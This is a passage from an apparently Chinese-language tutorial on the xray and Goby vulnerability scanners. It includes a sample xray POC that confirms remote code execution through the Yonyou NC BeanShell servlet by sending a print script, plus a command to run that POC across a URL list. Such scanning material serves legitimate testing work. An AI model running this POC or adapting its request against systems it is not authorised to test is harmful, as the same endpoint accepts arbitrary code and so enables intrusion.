      `.\xray.exe ws --browser-crawler https://test.com --ho test.com.html`
   - POC编写
     
     文档：
     ```text
     https://docs.xray.cool/#/guide/
     https://stack.chaitin.com/techblog/detail?id=50
     ```
     
     辅助工具：`https://poc.xray.cool/`
     
     脚本实例：（poc-yaml-用友NC-bsh.servlet.BshServlet.yml）
     ```text
     name: poc-yaml-用友NC-bsh.servlet.BshServlet
     transport: http
     set:
       r3: randomInt(5000, 6000)
     rules:
       r0:
         request:
           method: GET
           path: /servlet/~ic/bsh.servlet.BshServlet
           follow_redirects: false
         expression: response.status == 200 && response.body.bcontains(bytes(string('BeanShell')))
       r1:
         request:
           cache: true
           method: POST
           path: /servlet/~ic/bsh.servlet.BshServlet
           follow_redirects: false
           headers:
             Content-Type: application/x-www-form-urlencoded
           body: bsh.script=print%28%22{{r3}}%22%29%3B
         expression: response.status == 200 && response.body.bcontains(bytes(string(r3)))
     expression: r0() && r1()
     detail:
       author: test
       links:
         - http://test.test
     ```
     
     使用POC检测漏洞：
     
     `.\xray.exe ws -p mypocs/poc-yaml-用友NC-bsh.servlet.BshServlet.yml -uf url.txt --ho yongyou-nc.com.html`
     
     漏洞复现案例：
     
     `https://cloud.tencent.com/developer/article/1839237`
2. Goby
   
   软件主页：`https://www.gobies.cn/`
   
   使用生成的虚拟邮箱注册：
   ```text
   https://tempail.com/en/
   https://www.gobies.cn/signUp
   ```
   
